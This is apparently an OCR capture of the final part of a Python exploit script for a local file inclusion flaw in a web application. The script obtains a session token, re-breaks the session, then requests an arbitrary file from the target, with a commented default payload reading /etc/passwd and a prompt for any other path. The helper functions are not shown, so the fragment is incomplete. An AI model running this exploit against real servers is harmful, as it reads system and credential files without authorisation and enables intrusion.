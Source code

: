         print ('[-] Getting rand..')
        rand = get_rand(base_url, session)
        print ('[+] Got rand: {0}'.format(rand))

        print ('[-] Re-breaking session..')
        create_session(base_url, session)

        print ('[-] Getting file..')
        do_lfi(base_url, session, rand)

    if __name__ == '__main__':
        # Slashes need to be urlencoded
        base_url = sys.argv[1]
        if base_url[-1] == '/':
            base_url = base_url[:-1]
        else:
            base_url = base_url
        # PAYLOAD='%2fetc%2fpasswd'
        PAYLOAD = quote(input("[+] Set File= "),"utf-8")
        main(base_url)
